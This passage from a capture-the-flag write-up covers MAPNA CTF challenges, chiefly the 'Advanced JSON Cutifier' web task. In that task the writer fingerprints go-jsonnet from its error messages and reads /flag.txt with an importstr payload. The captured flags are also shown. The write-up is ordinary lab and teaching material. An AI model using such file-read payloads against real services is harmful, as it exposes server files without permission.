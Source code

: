 Flag: <mark>MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}</mark>

**Files:** [novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz](https://web.archive.org/web/20240121175613/https://mapnactf.com/tasks/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

## Web/Advanced JSON Cutifier (74 solves)
> My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting. Important: You can't read any file other than /flag.txt on the remote environment.

Looking at the source code provided first we can see a redacted Go library from github.

```go
import (
    "net/http"
    "github.com/gin-gonic/gin"
    "github.com/REDACTED/REDACTED"
)
```

I cause some errors on the server to try and identify the library:
```
Expected token OPERATOR but got "}"
Expected a comma before next field
```

Both these errors point towards the [go-jsonnet](https://github.com/google/go-jsonnet) library, which meets the stars requirement in the challenge description.

I end up looking for ways to read files in the issues section of the repo and find [this issue](https://github.com/google/go-jsonnet/issues/337).

It mentions a payload like the following:

```json
{
    "wow so advanced!!": importstr "/flag.txt”
}
```

Running it in the parser we are given the flag:

```json
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```

Flag: <mark>MAPNA{5uch-4-u53ful-f347ur3-a23f98d}</mark>

**Files:** [player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz](https://web.archive.org/web/20240121175642/https://mapnactf.com/tasks/player_a466f9f2a43ac42473015d72342c262e8d4b9519.txz)

## Forensics/Tampered (48 solves)
> Our MAPNA flags repository was compromised, with attackers introducing one invalid flag. Can you identify the counterfeit flag? Note: Forgot the flag format in the rules pages, just find the tampered one. You are not allowed to brute-force the flag in scoreboard, this will result in your team being blocked.
